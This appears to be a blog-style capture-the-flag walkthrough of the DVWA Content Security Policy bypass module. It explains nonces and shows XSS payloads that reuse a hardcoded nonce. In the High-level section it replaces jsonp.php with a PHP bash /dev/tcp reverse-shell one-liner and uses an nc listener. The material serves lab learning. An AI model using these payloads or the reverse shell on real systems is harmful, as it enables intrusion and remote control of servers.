 ```yaml
---
title: DVWA - CSP Bypass
date: 2023-12-18
categories: [CTF, Web Exploitation]
tags: [dvwa, csp, csp-bypass, burp, xss, javascript, js, php, nonce]
img_path: /assets/dvwa/csp_bypass
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Content Security Policy (CSP) Bypass

CSP is used to **define where scripts and other resources can be loaded or executed from**. This module will walk you through ways to bypass the policy based on common mistakes made by developers. None of the vulnerabilities are actual vulnerabilities in CSP, they are vulnerabilities in the way it has been implemented.

**Objective**: Bypass Content Security Policy (CSP) and execute JavaScript in the page.

## Security: Low
> _Examine the policy to find all the sources that can be used to host external script files ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_low_source.php))._

> This task has an active issue: [CSP Bypass can't be solved with Hastebin anymore (once again) #539](https://github.com/digininja/DVWA/issues/539)
{: .prompt-warning}

## Security: Medium
> _The CSP policy tries to use a nonce to prevent inline scripts from being added by attackers ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_medium_source.php))._

1. If we have a look at the source code, we will see that a `nonce` has been included:

    ```php
    $headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

    header($headerCSP);

    // Disable XSS protections so that inline alert boxes will work
    header ("X-XSS-Protection: 0");

    # <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
    ```

    Let's find out what exactly [`nonce`](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/) is:

    _A CSP with a nonce-source might look like this:_

    `content-security-policy: default-src 'self'; script-src 'nonce-2726c7f26c'`

    And the corresponding document might contain a script element that looks like this:

    ```php
    <script nonce="2726c7f26c">
    alert(123);
    </script>
    ```

    There are 2 things to note here:
    1. It’s important that the nonce changes for each response.
    2. It’s important that the nonce is sufficiently hard to predict.

    _Now, because the nonce changes in a way that isn’t predictable, **the attacker doesn’t know what to inject** and so, by only allowing script (or style) elements with valid nonce attributes, we can be sure that injections will fail._

2. Essentialy, in order to bypass CSP we now need to know the `nonce`'s value. If we try to XSS as usual, it won't work:

    ```javascript
    <script>alert("XSS")</script>
    ```

    ![](medium_xss_fail.png)

3. But if we pass our payload along with the `nonce`'s value, it will work just fine:

    ```javascript
    <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert("XSS")</script>
    ```

    ![](medium_xss_nonce.png)

## Security: High
> _The page makes a JSONP call to source/jsonp.php passing the name of the function to callback to, you need to modify the jsonp.php script to change the callback function ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_high_source.php))._

## Reverse shell

1. On this level the pages makes a call to `jsonp.php` and executes whatever code is there:

    ![](home_high.png)

    ```shell
    $ cat /usr/share/dvwa/vulnerabilities/csp/source/jsonp.php
    <?php
    header("Content-Type: application/json; charset=UTF-8");

    if (array_key_exists ("callback", $_GET)) {
            $callback = $_GET['callback'];
    } else {
            return "";
    }

    $outp = array ("answer" => "15");

    echo $callback . "(".json_encode($outp).")";
    ?>
    ```

2. We can make a backup of this file and replace it with one that contains our code in it, such as a [php reveshe shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell):

    ```shell
    $ sudo cp jsonp.php jsonp.php.bak

    $ ls
    high.js  high.php  impossible.js  impossible.php  jsonp_impossible.php  jsonp.php  jsonp.php.bak  low.php  medium.php

    $ cat jsonp.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");?>
    ```

3. If we set up a listener and click the *Solve the sum* button, we should be able to catch the reverse shell:

    ```shell
    $  nc -lvnp 1337
    listening on [any] 1337 ...
    ```

    ![](medium_revshell.png)

## Command execution

1. If we click the *Solve the sum* button and intercept the traffic with Burp, we will notice the `callback` parameter:

    ![](high_burp.png)

2. We can modify `callback`'s value by passing a simple payload and then execute our payload by sending the request:

    ![](high_burp2.png)

    ![](high_alert.png)

## Security: Impossible
> _This level is an update of the high level where the JSONP call has its callback function hardcoded and the CSP policy is locked down to only allow external scripts ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/csp_bypass/csp_bypass_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=ERksJHl0DC0).
- [Content Security Policy Reference](https://content-security-policy.com/).
- Mozilla's [CSP for the web we have](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/).
- PortSwigger's [Content Security Policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy).